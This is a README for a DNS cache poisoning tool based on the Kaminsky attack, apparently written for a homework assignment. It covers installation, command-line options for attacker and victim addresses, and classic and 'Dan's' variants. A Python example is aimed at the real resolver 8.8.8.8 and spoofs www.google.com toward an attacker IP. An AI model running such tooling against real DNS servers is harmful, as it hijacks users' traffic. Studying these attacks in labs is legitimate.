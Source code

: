 # DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.

![Image](docs/dnspoisoning_screen_2.png)

Both attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html)

**WARNING**: This code is intended to be use only in the contex of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules). 

**NOTE**: When used to test homework result the **FAST** mode is mandatory since otherwise packets are transmitted too slowly causing the attack to fail.

## Requirements
* Scapy (For packet crafting) `pip3 install scapy`
* Blessing (For coloured terminal) `pip3 install blessings`
* DNS Python (For initial DNS query)  `pip3 install dnspython`

Inline requirements installation command pip install:

```pip3 install scapy blessings dnspython```

Otherwise simply use the provided requirements file

```pip3 install -r requirements.txt```

## Usage
The files ```launch.sh``` and ```launch_fast.sh``` can be edited with all the necessary paramters to carry on the attack or, instead, you could use the command line parameter directly.

```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] -bd BAD_DOMAIN
               [-ns NS_SERVER] [-i INTERFACE] [-at {NORMAL,DAN}]
               [-m {NORMAL,FAST}] [-vm VICTIM_MAC] [-si SECRET_IP]
               [-sp SECRET_PORT] [-n NUM_ATTACK] [-nc] [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -bd BAD_DOMAIN, --bad-domain BAD_DOMAIN
                        The domain belonging to the attacker controlled zone
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -n NUM_ATTACK, --num-attack NUM_ATTACK
                        Number of attack to perform
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

The secret is printed both on the terminal output and in ```log_secret.txt``` file. 

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```

### Bugs
When runninng in faster mode, a single CTRL+C signal is not sufficient to stop the execution due to some thread/signal handler bug. Therefore to completely stop the tool is required to hold CTRL+C for few seconds until the terminate the application.
